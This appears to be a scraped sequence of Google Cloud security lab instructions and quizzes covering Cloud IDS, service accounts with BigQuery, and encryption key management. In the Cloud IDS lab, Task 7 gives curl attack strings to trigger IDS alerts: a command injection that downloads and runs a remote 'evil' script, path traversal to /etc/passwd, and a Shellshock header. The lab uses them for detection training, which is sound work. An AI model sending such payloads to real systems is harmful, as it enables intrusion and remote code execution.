xxxxxxxxxxhttps://www.googleapis.com/compute/v1/projects/md975a7fa0a53145dp-tp/regions/us-east1/forwardingRules/ids-fr-cloud--xkkerutlagop6opm
Create and attach the packet mirroring policy:
xxxxxxxxxxgcloud compute packet-mirrorings create cloud-ids-packet-mirroring \--region=us-east1 \--collector-ilb=$FORWARDING_RULE \--network=cloud-ids \--mirrored-subnets=cloud-ids-useast1
Copied!
Click Check my progress to verify the objective.
Create and attach the packet mirroring policy.
Check my progress
Verify that the packet mirroring policy is created:
xxxxxxxxxxgcloud compute packet-mirrorings list
Copied!
This gcloud command lists the packet mirroring policies and shows whether they are enabled/disabled.
The output should be similar to this:
Command Output
xxxxxxxxxxNAME: cloud-ids-packet-mirroringREGION: us-east1NETWORK: cloud-idsENABLE: TRUE
Task 7. Simulate attack traffic
In this task, you establish an SSH connection to your attacked virtual machine and simulate attack traffic from a virtual machine to your server. You do this by running a selection of curl commands that range from low severity to critical severity.
To establish an SSH connection to your attacker virtual machine through IAP, in Cloud Shell, run the following command:
xxxxxxxxxxgcloud compute ssh attacker --zone=us-east1-b --tunnel-through-iap
Copied!
Note: You are now in the shell of your attacker VM and not the Cloud Shell machine.
Run the following
curlrequests in sequence to simulate low, medium, high, and critical severity alerts on the IDS:
Low Severity:
xxxxxxxxxxcurl "http://192.168.10.20/weblogin.cgi?username=admin';cd /tmp;wget http://123.123.123.123/evil;sh evil;rm evil"
Copied!
Medium Severity:
xxxxxxxxxxcurl http://192.168.10.20/?item=../../../../WINNT/win.inicurl http://192.168.10.20/eicar.file
Copied!
High Severity:
xxxxxxxxxxcurl http://192.168.10.20/cgi-bin/../../../..//bin/cat%20/etc/passwd
Copied!
Critical Severity:
xxxxxxxxxxcurl -H 'User-Agent: () { :; }; 123.123.123.123:9999' http://192.168.10.20/cgi-bin/test-critical
Copied!
Exit the attacker virtual machine shell and return to Cloud Shell:
xxxxxxxxxxexit
Copied!
Task 8. Review threats detected by Cloud IDS
In this task, you review the various attack traffic captured by the Cloud IDS in the Cloud console. The captured attack traffic profiles provide details of each threat.
In the Google Cloud console, in the Navigation menu (
Click the Threats tab.
The Cloud IDS captured various attack traffic profiles and provided the details on each threat. You may need to click Refresh if you do not see any threats. You now dive a little deeper and view threat details.
Locate the Bash Remote Code Execution Vulnerability threat, click More (
Note: You may have noticed that there are multiple threats that produce the same name, for example, “Bash Remote Code Execution Vulnerability”. This is expected behavior.
If you look closely, you will see that the session IDs of the threats are different. Since both VMs created are in the same subnet, we are seeing mirrored packets for both the client and server. Outbound packets from the client are being mirrored to IDS, and additionally, inbound packets to the server are being mirrored to IDS.
Now you view the details of this incident in Cloud Logging. To return to the Threats page, click the left arrow.
Click the Threats tab.
Locate the Bash Remote Code Execution Vulnerability, click More, and then select View threat logs.
A new Cloud Logging tab opens that displays the same details. This enables you to send the logs to Cloud Storage, Chronicle, or any SIEM/SOAR. You can also create custom workflows to take remediation action based on alerts, like creating a Cloud Function that triggers on an alert and creating or updating a firewall rule to block the IP address, or creating or updating a Google Cloud Armor policy.
Click Check my progress to verify the objective.
Getting Started with Cloud IDS.
Check my progress
Congratulations!
In this lab, you did the following:
Created a new VPC and deployed a Cloud IDS endpoint.
Deployed two VMs, created a packet mirroring policy, and then sent attack traffic.
Verified that the Cloud IDS captured the threats by viewing the threat details in the Cloud console and the threat logs in Cloud Logging.
Quiz
Which ONE of the following statements is TRUE when discussing the SSL capabilities of Google Cloud Load Balancer?
The Google-managed profile, COMPATIBLE, allows clients which support out-of-date SSL features.
You must use one of the 3 pre-configured “Google-managed profiles” to specify the level of compatibility appropriate for your application.
Google Cloud Load Balancers require, and will only accept, a Google-managed SSL Cert.
If no SSL policy is set, the SSL policy is automatically set to the most constrained policy, which is RESTRICTED.
Correct! The other two profiles, MODERN and RESTRICTED allow you to restrict SSL usage to clients with modern capabilities, or to restrict SSL access even further to meet compliance requirements.
Which FOUR of the following are firewall rule parameters?
Timestamp
Direction
Source
Action
IP Address
Organization
Project
Which statement about VPC Service Controls is false?
VPC Service Controls protect resources within a perimeter so they can only be privately accessed from clients within authorized VPC networks.
VPC Service Controls restrict Internet access to resources within a perimeter using allowlisted IPv4 and IPv6 ranges.
VPC Service Controls prevent data from being copied to unauthorized resources outside the perimeter using service operations.
VPC Service Controls restrict Internet access to resources within a perimeter by checking permissions assigned to Cloud Identity and Active Directory accounts only.
Correct! Perimeters are checked against allowlisted IPv4 or IPv6 ranges, not against accounts.
Which TWO of the following statements about VPCs is TRUE?
Google Cloud Firewall allows rules by default only affect traffic flowing in one direction.
A connection is considered active if it has at least one packet sent over a one hour period.
VPC firewall rules in Google Cloud are global in scope.
Correct! Since VPC networks can be global in Google Cloud, firewall rules are also global.
Every VPC network functions as a distributed firewall where firewall rules are defined at the network level.
Correct! Google Cloud firewall rules exist not only between your instances and other networks, but also between individual instances within the same network.
10 Security Best Practices in Google Cloud
Securing Compute Engine: Techniques and Best Practices
LAB - Configuring, Using, and Auditing VM Service Accounts and Scopes
Overview
Service accounts are a special type of Google account that grant permissions to virtual machines instead of end users. Service accounts are primarily used to ensure safe, managed connections to APIs and Google Cloud services. Granting access to trusted connections and rejecting malicious ones is a must-have security feature for any Google Cloud project.
Objectives
In this lab, you will learn how to:
Create and manage service accounts.
Create a virtual machine and associate it with a service account.
Use client libraries to access BigQuery from a service account.
Run a query on a BigQuery public dataset from a Compute Engine instance.
Setup and requirements
For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.
Sign in to Qwiklabs using an incognito window.
Note the lab's access time (for example,
1:15:00), and make sure you can finish within that time. There is no pause feature. You can restart if needed, but you have to start at the beginning.When ready, click Start lab.
Note your lab credentials (Username and Password). You will use them to sign in to the Google Cloud Console.
Click Open Google Console.
Click Use another account and copy/paste credentials for this lab into the prompts. If you use other credentials, you'll receive errors or incur charges.
Accept the terms and skip the recovery resource page.
Note: Do not click End Lab unless you have finished the lab or want to restart it. This clears your work and removes the project.
Activate Google Cloud Shell
Google Cloud Shell is a virtual machine that is loaded with development tools. It offers a persistent 5GB home directory and runs on the Google Cloud.
Google Cloud Shell provides command-line access to your Google Cloud resources.
In Cloud console, on the top right toolbar, click the Open Cloud Shell button.
Click Continue.
It takes a few moments to provision and connect to the environment. When you are connected, you are already authenticated, and the project is set to your PROJECT_ID. For example:
gcloud is the command-line tool for Google Cloud. It comes pre-installed on Cloud Shell and supports tab-completion.
You can list the active account name with this command:
xxxxxxxxxxgcloud auth list
Copied!
Output:
xxxxxxxxxxCredentialed accounts:- <myaccount>@<mydomain>.com (active)</mydomain></myaccount>
Example output:
xxxxxxxxxxCredentialed accounts:- google1623327_student@qwiklabs.net
You can list the project ID with this command:
xxxxxxxxxxgcloud config list project
Copied!
Output:
xxxxxxxxxx[core]project = <project_id></project_id>
Example output:
xxxxxxxxxx[core]project = qwiklabs-gcp-44776a13dea667a6
Note: Full documentation of gcloud is available in the gcloud CLI overview guide .
What are service accounts?
A service account is a special Google account that belongs to your application or a virtual machine (VM) instead of an individual end user. Your application uses the service account to call the Google API of a service, so that the users aren't directly involved.
For example, a Compute Engine VM may run as a service account and that account can be given permissions to access the resources it needs. This way the service account is the identity of the service, and the service account's permissions control which resources the service can access.
A service account is identified by its email address, which is unique to the account.
Types of service accounts
User-managed service accounts
When you create a new Cloud project using the Cloud Console, if the Compute Engine API is enabled for your project, a Compute Engine service account is created for you by default. It is identifiable using the email: PROJECT_NUMBER-compute@developer.gserviceaccount.com.
If your project contains an App Engine application, the default App Engine service account is created in your project by default. It is identifiable using the email: PROJECT_ID@appspot.gserviceaccount.com.
Google-managed service accounts
In addition to the user-managed service accounts, you might see some additional service accounts in your project’s IAM policy or in the Cloud Console. These service accounts are created and owned by Google. These accounts represent different Google services and each account is automatically granted IAM roles to access your Google Cloud project.
Google API service accounts
An example of a Google-managed service account is a Google API service account identifiable using the email: PROJECT_NUMBER@cloudservices.gserviceaccount.com.
This service account is designed specifically to run internal Google processes on your behalf and is not listed in the Service Accounts section of the Cloud Console. By default, the account is automatically granted the project editor role on the project and is listed in the IAM section of the Cloud Console.
This service account is deleted only when the project is deleted. Google services rely on the account having access to your project, so you should not remove or change the service account’s role on your project.
Task 1. Create and manage service accounts
In this task, you create and manage service accounts.
By default, you can create up to 100 user-managed service accounts in a project. If this quota does not meet your needs, you can use the Cloud console to request a quota increase.
Note: The default service accounts described on this page do not count toward this quota.
Creating a service account
Creating a service account is similar to adding a member to your project, but the service account belongs to your applications rather than an individual end user.
To create a service account, run the following command in Cloud Shell:
xxxxxxxxxxgcloud iam service-accounts create my-sa-123 --display-name "my service account"
Copied!
The output of this command is the service account, which will look similar to the following.
Output:
xxxxxxxxxxCreated service account [my-sa-123]
Granting roles to service accounts
When granting IAM roles, you can treat a service account either as a resource or as an identity.
Your application uses a service account as an identity to authenticate to Google Cloud services. For example, if you have a Compute Engine Virtual Machine (VM) running as a service account, you can grant the editor role to the service account (the identity) for a project (the resource).
At the same time, you might also want to control who can start the VM. You can do this by granting a user (the identity) the serviceAccountUser role for the service account (the resource).
Granting roles to a service account for specific resources
You grant roles to a service account so that the service account has permission to complete specific actions on the resources in your Google Cloud project. For example, you might grant the storage.admin role to a service account so that it has control over objects and buckets in Cloud Storage.
Run the following in Cloud Shell to grant roles to the service account you just made:
xxxxxxxxxxgcloud projects add-iam-policy-binding $DEVSHELL_PROJECT_ID \--member serviceAccount:my-sa-123@$DEVSHELL_PROJECT_ID.iam.gserviceaccount.com --role roles/editor
Copied!
The output will display a list of roles the service account now has.
Output:
xxxxxxxxxxbindings:- members:- user:email1@gmail.comrole: roles/owner- members:- serviceAccount:our-project-123@appspot.gserviceaccount.com- serviceAccount:123456789012-compute@developer.gserviceaccount.com- serviceAccount:my-sa-123@my-project-123.iam.gserviceaccount.com- user:email3@gmail.comrole: roles/editor- members:- user:email2@gmail.comrole: roles/vieweretag: BwUm38GGAQk=version: 1
Click Check my progress to verify the objective.
Creating and Managing Service Account
Check my progress
Understanding roles
When an identity calls a Google Cloud API, Cloud Identity and Access Management (Cloud IAM) requires that the identity has the appropriate permissions to use the resource. You can grant permissions by granting roles to a user, a group, or a service account.
Types of roles
There are three types of roles in Cloud IAM:
Basic roles, which include the Owner, Editor, and Viewer roles that existed prior to the introduction of Cloud IAM.
Predefined roles, which provide granular access for a specific service and are managed by Google Cloud.
Custom roles, which provide granular access according to a user-specified list of permissions.
For more details, please refer to the IAM Roles reference documentation.
Task 2. Use the client libraries to access BigQuery from a service account
In this task, you query the BigQuery public datasets from an instance with the help of a service account which has the necessary roles.
Create a service account
You will first create a new service account using the Cloud Console.
In the Cloud Console, from the navigation menu, click IAM & Admin > Service accounts.
Click Create service account.
Specify the Service account name as
bigquery-qwiklab.

Click Create and Continue.
Specify the Role as BigQuery > BigQuery Data Viewer.
Click Add Another Role.
Specify the other Role as BigQuery > BigQuery User.
Click Continue.
Your Cloud Console should resemble the following.
Click Done.
Create a VM instance
In the Cloud Console, from the navigation menu, click Compute Engine > VM Instances, and click Create instance.
Create your VM with the following information:
| Configuration | Value |
|---|---|
| Name | bigquery-instance |
| Region | us-east4 |
| Zone | us-east4-b |
| Series | E2 |
| Machine Type | e2-standard-2 (2 vCPU) |
| Boot Disk | Debian GNU/Linux 11 (bulleye) |
| Service Account | bigquery-qwiklab |
| Access scopes | Allow full access to all Cloud APIs |
Note: If the bigquery-qwiklab service account doesn't appear in the drop-down list, try typing the name in to the Filter section.
Next, you will look at the options that were added when you selected a boot disk that supports shielded VMs.
Click the Security tab. At the top of the tab, the Shielded VM options appear. If you had not selected a boot disk with shielded VM features, these options would not have appeared. Some of these options are selected by default.
Click the Turn on Secure Boot checkbox.
Compute Engine does not enable this option by default, because unsigned drivers and other low-level software might not be compatible. Even so, if possible, Google recommends enabling Secure Boot.
Click Create.
Put the example code on a Compute Engine instance
In the Cloud Console, go to Compute Engine > VM Instances.
SSH into
bigquery-instanceby clicking on the SSH button. Click Connect.In the SSH window, install the necessary dependencies by running the following commands:
xxxxxxxxxxsudo apt-get update -y
Copied!
xxxxxxxxxxsudo apt-get install -y git python3-pip
Copied!
xxxxxxxxxxsudo pip3 install six==1.13.0
Copied!
xxxxxxxxxxsudo pip3 install --upgrade pip
Copied!
xxxxxxxxxxsudo pip3 install --upgrade google-cloud-bigquery
Copied!
xxxxxxxxxxsudo pip3 install pandas
Copied!
Using the
echocommand, createquery.py. You will use this file, written in Python, to run the query.
xxxxxxxxxxecho "from google.auth import compute_enginefrom google.cloud import bigquerycredentials = compute_engine.Credentials(service_account_email='YOUR_SERVICE_ACCOUNT')query = '''SELECTyear,COUNT(1) as num_babiesFROMpublicdata.samples.natalityWHEREyear > 2000GROUP BYyear'''client = bigquery.Client(project='YOUR_PROJECT_ID',credentials=credentials)print(client.query(query).to_dataframe())" > query.py
Copied!
Add the Project ID to
query.pywith:
xxxxxxxxxxsed -i -e "s/YOUR_PROJECT_ID/$(gcloud config get-value project)/g" query.py
Copied!
Run the following to make sure that the
sedcommand has successfully changed the Project ID in the file:
xxxxxxxxxxcat query.py
Copied!
Example output (yours will differ):
xxxxxxxxxxfrom google.auth import compute_enginefrom google.cloud import bigquerycredentials = compute_engine.Credentials(service_account_email='YOUR_SERVICE_ACCOUNT')query = '''SELECTyear,COUNT(1) as num_babiesFROMpublicdata.samples.natalityWHEREyear > 2000GROUP BYyear'''client = bigquery.Client(project='qwiklabs-gcp-186de687ef87f911',credentials=credentials)print(client.query(query).to_dataframe())
Add the service account email to
query.pywith:
xxxxxxxxxxsed -i -e "s/YOUR_SERVICE_ACCOUNT/bigquery-qwiklab@$(gcloud config get-value project).iam.gserviceaccount.com/g" query.py
Copied!
Run the following to make sure that the
sedcommand has successfully changed the service account email in the file:
xxxxxxxxxxcat query.py
Copied!
Example output (yours will differ):
xxxxxxxxxxfrom google.auth import compute_enginefrom google.cloud import bigquerycredentials = compute_engine.Credentials(service_account_email='bigquery-qwiklab@qwiklabs-gcp-186de687ef87f911.iam.gserviceaccount.com')query = '''SELECTyear,COUNT(1) as num_babiesFROMpublicdata.samples.natalityWHEREyear > 2000GROUP BYyear'''client = bigquery.Client(project='qwiklabs-gcp-186de687ef87f911',credentials=credentials)print(client.query(query).to_dataframe())
The application will now use the permissions that are associated with this service account.
Install the
pyarrowlibrary using this command:
xxxxxxxxxxsudo pip3 install pyarrow==16.1.0
Copied!
Install the
db-dtypeslibrary using this command:
xxxxxxxxxxsudo pip3 install db-dtypes
Copied!
Run the
query.pyusing this command:
xxxxxxxxxxpython3 query.py
Copied!
You should be returned with a similar output as the following.
Output:
xxxxxxxxxxyear num_babies0 2008 42551561 2002 40273762 2005 41456193 2006 42732254 2001 40315315 2007 43240086 2003 40960927 2004 4118907
Note: Your row values might not map to the years in the above output. However, make sure that the babies per year are the same.
You made a request to a BigQuery public dataset with a bigquery-qwiklab service account.
Click Check my progress to verify the objective.
Use the Client Libraries to access BigQuery from a service account
Check my progress
Congratulations!
In this lab, you have learned how to do the following:
Create and manage service accounts.
Create a virtual machine and associate it with a service account.
Use client libraries to access BigQuery from a service account.
Run a query on a BigQuery public dataset from a Compute Engine instance.
Quiz
Which TWO recommendations below ARE considered to be Compute Engine "best practices?"
Cloud Interconnect or Cloud VPN can be used to securely extend your data center network into Google Cloud projects.
Correct! Using these services to extend your on-prem resources into the cloud helps to make your hybrid network more secure and reliable.
Always run critical VMs with default, scope-based service accounts.
Hardened custom images, once added to your Organization's resources, are then maintained by Google with automatic security patches and other updates.
Utilize projects and IAM roles to control access to your VMs. Correct! Projects form the basis for creating, enabling, and using all Google Cloud services including managing permissions for Google Cloud resources.
Which TWO of the following statements is TRUE when discussing the Organization Policy Service?
Descendants of a targeted resource do not inherit the parent's Organization Policy.
Organization Policy Services allow centralized control for how your organization’s resources can be used.
Correct! Organization Policy Service gives you both centralized and programmatic control over your organization's cloud resources.
To define an Organization Policy, you will choose and then define a constraint against either a Google Cloud service or a group of Google Cloud services. Correct! Organization Policy Service allows you to set constraints that apply to all resources in your organization's hierarchy.
Which of the following TWO statements about Google Cloud service accounts are TRUE?
Virtual Machine (VM) instances use service accounts to run API requests on your behalf.
Correct! When launching a virtual machine in Compute Engine, a service account can be associated directly to that VM.
VMs without service accounts cannot run APIs.
Custom service accounts use "scopes" to control API access.
Service accounts are a type of identity.
Correct! VMs authenticate using the identity of a service account when making calls to the Google APIs.
Securing Cloud Data: Techniques and Best Practices
LAB - Using Customer-Supplied Encryption Keys with Cloud Storage
Overview
Cloud Storage always encrypts your data on the server side with a Google-managed encryption key, before it is written to disk, at no additional charge. As an alternative to a Google-managed server-side encryption key, you can choose to provide your own AES-256 key, encoded in standard Base64. This key is known as a customer-supplied encryption key.
In this lab, you will configure customer-supplied encryption keys (CSEK) for Cloud Storage. Files will then be uploaded into a storage bucket. You will then generate a new encryption key and rotate CSEK keys.
Cloud Storage does not permanently store your key on Google's servers or otherwise manage your key. Instead, you provide your key for each Cloud Storage operation, and your key is purged from Google's servers after the operation is complete. Cloud Storage stores only a cryptographic hash of the key so that future requests can be validated against the hash.
Your key cannot be recovered from this hash, and the hash cannot be used to decrypt your data.
Objectives
In this lab, you wil learn how to perform the following tasks:
Configure CSEK for Cloud Storage.
Utilize CSEK to encrypt files in Cloud Storage.
Delete local files from Cloud Storage and verify encryption.
Rotate your encryption keys without downloading and re-uploading data.
Setup and requirements
For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.
Sign in to Qwiklabs using an incognito window.
Note the lab's access time (for example,
1:15:00), and make sure you can finish within that time. There is no pause feature. You can restart if needed, but you have to start at the beginning.When ready, click Start lab.
Note your lab credentials (Username and Password). You will use them to sign in to the Google Cloud Console.
Click Open Google Console.
Click Use another account and copy/paste credentials for this lab into the prompts. If you use other credentials, you'll receive errors or incur charges.
Accept the terms and skip the recovery resource page.
Note: Do not click End Lab unless you have finished the lab or want to restart it. This clears your work and removes the project.
Task 1. Configure required resources
In this task, you configure the required resources that will be used throughout the lab.
Create an IAM service account
Note: In this lab, you will launch a VM in Compute Engine and perform most of the work on this VM. A service account will first be created to provide the VM with the required permissions to perform the lab.
In the Google Cloud Console, select Navigation menu > IAM & admin > Service accounts.
Click Create Service Account.
Specify the Service account name as
cseklab.Click Create and Continue.
Specify the Role as Cloud Storage > Storage Admin.
Click Continue.
Click Done.
Create a Compute Engine VM
In the Cloud Console, go to Navigation menu > Compute Engine > VM instances. Click Create Instance.
Specify the following, and leave the remaining settings as their defaults.
Name:
cseklab-vmRegion:
us-central1Zone:
us-central1-aSeries:
E2Machine type:
e2-micro
Click Security, and then specify the following:
Service account: The cseklab service account just created
Access scopes: Select Set access for each API, for Storage select Full from the dropdown.
Click Create.
Once the VM launches, click the SSH button to connect to the VM.
Create a Cloud Storage bucket
Note: A bucket must have a globally unique name. For this lab you will use your Google Cloud project ID as part of the bucket name to help ensure it will be unique. Your Google Cloud project ID can be copied from the Connection Details pane in Qwiklabs.
From the SSH terminal connected to the cseklab-vm, run the following command to create an environment variable to store the name of your bucket:
xxxxxxxxxxexport BUCKET_NAME=[PUT Google_Cloud_PROJECT_ID HERE]-csek
Copied!
Enter the following command to create the bucket:
xxxxxxxxxxgsutil mb -l us gs://$BUCKET_NAME
Copied!
Click Check my progress to verify the objective.
Configure required resources
Check my progress
Download a sample file using CURL and make two copies
Use the following command to download a sample file (this sample file is a publicly available Hadoop documentation HTML file). This file will be copied into the lab's storage bucket:
xxxxxxxxxxcurl \https://hadoop.apache.org/docs/current/\hadoop-project-dist/hadoop-common/\ClusterSetup.html > setup.html
Copied!
Make two copies of the file:
xxxxxxxxxxcp setup.html setup2.htmlcp setup.html setup3.html
Copied!
Task 2. Configure customer-supplied encryption keys
In this task, you generate a CESK key, upload the file to the Cloud Console, and then delete the local copy.
Generate a CSEK key
Note: When using customer-supplied encryption keys, it is up to you to generate and manage your encryption keys. You must provide Cloud Storage a key that is a 256-bit string encoded in RFC 4648 standard base64. For this lab, you will generate a key with a random number.
In the cseklab-vm SSH terminal, run the following command to create a key:
xxxxxxxxxxopenssl rand 32 > mykey.txtopenssl base64 -in mykey.txt
Copied!
Example output:
xxxxxxxxxxtmxElCaabWvJqR7uXEWQF39DhWTcDvChzuCmpHe6sb0=
Copy the value of the generated key. You will require this for a later step.
Modify the .boto file
Note: The encryption controls are contained in a gsutil configuration file named .boto.
Run the following command in the SSH terminal to verify the .boto file exists:
xxxxxxxxxxls -al
Copied!
If you do not see a .boto file run the following commands to generate and list it:
xxxxxxxxxxgsutil config -nls -al
Copied!
To edit the .boto file, run the following command:
xxxxxxxxxxnano .boto
Copied!
Within the .boto file, locate the line with "#encryption_key=". To search in Nano, click the keyboard located in the top right of the SSH window, select Ctrl+W and type
#encrypt.
Uncomment the encryption_key line by removing the # character, and paste the key you generated earlier.
Example:
xxxxxxxxxxBefore:# encryption_key=After:encryption_key=tmxElCaabWvJqR7uXEWQF39DhWTcDvChzuCmpHe6sb0=
Press Ctrl+X to Exit, Y to save the file, then Enter to confirm the filename.
Upload files (encrypted) and verify in the Cloud Console
Run the following commands to upload two files:
xxxxxxxxxxgsutil cp setup.html gs://$BUCKET_NAMEgsutil cp setup2.html gs://$BUCKET_NAME
Copied!
Return to the Cloud Console and view the storage bucket contents by selecting Navigation menu > Cloud Storage, then click on the bucket.
Note: Both the setup.html and setup2.html files show that they are customer-encrypted.
Click Check my progress to verify the objective.
Configuring customer-supplied encryption keys
Check my progress
Delete a local file, copy from Cloud Storage, and verify encryption
Delete the local setup.html file, run the following command:
xxxxxxxxxxrm setup.html
Copied!
To copy the file back from the bucket, run the following command:
xxxxxxxxxxgsutil cp gs://$BUCKET_NAME/setup.html ./
Copied!
View the file to see whether they made it back with the following command:
xxxxxxxxxxcat setup.html
Copied!
Task 3. Rotate CSEK keys
In this task, you rotate CSEK keys. To rotate CSEKs, you change your encryption_key configuration value to a decryption_key configuration value and then use a new value for the encryption_key.
Then you can use the rewrite command to rotate keys in the cloud without downloading and re-uploading the data.
Generate another CSEK key and add to the boto file
In the SSH terminal, run the following command to generate a new key:
xxxxxxxxxxopenssl rand 32 > mykey.txtopenssl base64 -in mykey.txt
Copied!
Copy the value of the generated key from the command output. Key should be in form of
tmxElCaabWvJqR7uXEWQF39DhWTcDvChzuCmpHe6sb0=.To open the boto file, run the following command:
xxxxxxxxxxnano .boto
Copied!
Locate the current encryption_key line and comment it out by adding the # character to the beginning of the line.
Add a new line with encryption_key= and paste the new key value.
Output:
xxxxxxxxxxBefore:encryption_key=2dFWQGnKhjOcz4h0CudPdVHLG2g+OoxP8FQOIKKTzsg=After:# encryption_key=2dFWQGnKhjOcz4h0CudPdVHLG2g+OoxP8FQOIKKTzsg=encryption_key=HbFK4I8CaStcvKKIx6aNpdTse0kTsfZNUjFpM+YUEjY=
Uncomment the decryption_key1= line by removing the # character.
Copy the value of the original encryption_key from the line that was commented out, and paste it for the value of the decryption_key1 line.
Output:
xxxxxxxxxxBefore:# encryption_key=2dFWQGnKhjOcz4h0CudPdVHLG2g+OoxP8FQOIKKTzsg=encryption_key=HbFK4I8CaStcvKKIx6aNpdTse0kTsfZNUjFpM+YUEjY==# decryption_key1=After:# encryption_key=2dFWQGnKhjOcz4h0CudPdVHLG2g+OoxP8FQOIKKTzsg=encryption_key=HbFK4I8CaStcvKKIx6aNpdTse0kTsfZNUjFpM+YUEjY==decryption_key1=2dFWQGnKhjOcz4h0CudPdVHLG2g+OoxP8FQOIKKTzsg=
The original encryption_key line that is commented out can also be completely deleted from the file.
Press Ctrl+X to Exit, Y to save the file, then Enter to confirm the filename.
Encrypt a file with the new key and decrypt a file with the old key
Upload a new file to the bucket. This file will be encrypted with the new key:
xxxxxxxxxxgsutil cp setup3.html gs://$BUCKET_NAME
Copied!
Note: At this point, setup.html and setup2.html are encrypted with the original key and setup3.html is encrypted with the new key.
Delete the local setup2.html and setup3.html files with the following commands:
xxxxxxxxxxrm setup2.htmlrm setup3.html
Copied!
To copy the files back from the storage bucket, run the following commands:
xxxxxxxxxxgsutil cp gs://$BUCKET_NAME/setup2.html ./gsutil cp gs://$BUCKET_NAME/setup3.html ./
Copied!
View the encrypted file to see whether they made it back with the following commands:
xxxxxxxxxxcat setup2.htmlcat setup3.html
Copied!
Note: This lab demonstrates how new keys can be generated for new data, but note that files encrypted with the older keys can still be decrypted.
Rewrite the key for file 1 and comment out the old decrypt key
Rewriting an encrypted file causes the file to be decrypted it using the decryption_key1 that you previously set, and encrypts the file with the new encryption_key.
Run the following command to rewrite setup.html
xxxxxxxxxxgsutil rewrite -k gs://$BUCKET_NAME/setup.html
Copied!
Note: At this point, setup.html has been rewritten with the new encryption key and setup3.html is encrypted with the new key as well. The setup2.html file is still encrypted with the original key so that you can see what happens if you don't rotate the keys properly.
Open the boto file with the following command:
xxxxxxxxxxnano .boto
Copied!
Comment out the current decryption_key1 line by adding the # character back in.
Press Ctrl+X to Exit, Y to save the file, then Enter to confirm the filename.
Delete all three local files with the following command:
xxxxxxxxxxrm setup*.html
Copied!
Download setup.html and setup3.html (both encrypted with the new key) with following commands:
xxxxxxxxxxgsutil cp gs://$BUCKET_NAME/setup.html ./gsutil cp gs://$BUCKET_NAME/setup3.html ./
Copied!
View the encrypted files to see whether they made it back through the process using the following commands:
xxxxxxxxxxcat setup.htmlcat setup3.html
Copied!
Try to download setup2.html (encrypted with the original key) using the following command:
xxxxxxxxxxgsutil cp gs://$BUCKET_NAME/setup2.html ./
Copied!
Note: What happened? setup2.html was not rewritten with the new key, so it can no longer be decrypted, and the copy failed.
You have successfully rotated the CSEK keys.
Congratulations!
In this lab, you have done the following:
Configured CSEK for Cloud Storage.
Utilized CSEK to encrypt files in Cloud Storage.
Deleted local files from Cloud Storage and verified encryption.
Rotated your encryption keys without downloading and re-uploading data.
LAB - Using Customer-Managed Encryption Keys with Cloud Storage and Cloud KMS
Overview
Cloud Key Management Service (Cloud KMS) allows you to manage encryption keys on Google Cloud. Encryption keys are created by Cloud KMS and managed by you in the same manner you would manage them on-premises.
Using Cloud KMS you can generate, use, rotate and destroy AES256 symmetric encryption keys for direct use by all of your cloud services.
In this lab, you will use Cloud KMS to create KeyRings and CryptoKeys and then use those keys with Cloud Storage to set default keys on buckets, and encrypt individual objects with a Cloud KMS key.
Additionally, you will manually perform server-side encryption with your Cloud KMS keys, and upload encrypted data to Cloud Storage.
Cloud KMS permissions will be managed with IAM, and Cloud Audit Logs will be used to view all activity for CryptoKeys and KeyRings.
Objectives
In this lab, you will learn how to do the following:
Manage keys and encrypted data using Cloud KMS.
Create KeyRings and CryptoKeys.
Set a default encryption key for a storage bucket.
Encrypt an object with a Cloud KMS key.
Rotate encryption keys.
Perform server-side encryption manually with Cloud KMS keys.
Setup and requirements
For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.
Sign in to Qwiklabs using an incognito window.
Note the lab's access time (for example,
1:15:00), and make sure you can finish within that time. There is no pause feature. You can restart if needed, but you have to start at the beginning.When ready, click Start lab.
Note your lab credentials (Username and Password). You will use them to sign in to the Google Cloud Console.
Click Open Google Console.
Click Use another account and copy/paste credentials for this lab into the prompts. If you use other credentials, you'll receive errors or incur charges.
Accept the terms and skip the recovery resource page.
Note: Do not click End Lab unless you have finished the lab or want to restart it. This clears your work and removes the project.
Task 1: Configure required resources
In this task, you configure the required resources for this lab.
Create a Cloud Storage bucket
Note: A bucket must have a globally unique name. For this lab, you will use your Google Cloud project ID as part of the bucket name to help ensure it will be unique. Your Google Cloud project ID is automatically stored in a Cloud Shell environment variable named DEVSHELL_PROJECT_ID.
On the Google Cloud Console title bar, click Activate Cloud Shell (
Run the following command to create the bucket:
xxxxxxxxxxgsutil mb -l us-west1 gs://$DEVSHELL_PROJECT_ID-kms
Copied!
Run the following commands to create a few sample files that will be uploaded to the bucket:
xxxxxxxxxxecho "This is sample file 1" > file1.txtecho "This is sample file 2" > file2.txtecho "This is sample file 3" > file3.txt
Copied!
Run the following command to copy file1.txt to the bucket:
xxxxxxxxxxgsutil cp file1.txt gs://$DEVSHELL_PROJECT_ID-kms
Copied!
Enable Cloud KMS
Note: Before using Cloud KMS you need to enable it in your project. In the Qwiklab Google Cloud Project you have been provisioned, Cloud KMS should already have been enabled. Just to be safe, you will issue the command to enable it anyway.
Run the following command in Cloud shell to enable Cloud KMS:
xxxxxxxxxxgcloud services enable cloudkms.googleapis.com
Copied!
Click Check my progress to verify the objective.
Create a Cloud Storage bucket
Check my progress
Task 2. Use Cloud KMS
In this task, you use Cloud KMS to create a keyring and a cryptokey.
Create a KeyRing and CryptoKey
Note: In order to encrypt data, you need to create a KeyRing and a CryptoKey. KeyRings are useful for grouping keys. Keys can be grouped by environment (like test, staging, and prod) or by some other conceptual grouping. For this lab, your KeyRing will be called test and your CryptoKey will be called labkey.
In Cloud Shell, run the following commands to create variables to hold the KeyRing name and CryptoKey name:
xxxxxxxxxxKEYRING_NAME=lab-keyringCRYPTOKEY_1_NAME=labkey-1CRYPTOKEY_2_NAME=labkey-2
Copied!
Execute the following command to create the KeyRing.
xxxxxxxxxxgcloud kms keyrings create $KEYRING_NAME --location us-west1
Copied!
Next, using the new KeyRing, create a CryptoKey named labkey-1:
xxxxxxxxxxgcloud kms keys create $CRYPTOKEY_1_NAME --location us-west1 \--keyring $KEYRING_NAME --purpose encryption
Copied!
Create another CryptoKey named labkey-2:
xxxxxxxxxxgcloud kms keys create $CRYPTOKEY_2_NAME --location us-west1 \--keyring $KEYRING_NAME --purpose encryption
Copied!
You can view the KeyRing and keys in the Cloud Console.
In the Cloud Console, go to Navigation menu > Security > Key Management.
You will see the KeyRing named lab-keyring.
Click on the KeyRing named lab-keyring to view the encryption keys named labkey-1 and labkey-2.

Click Check my progress to verify the objective.
Create a Keyring and Cryptokey
Check my progress
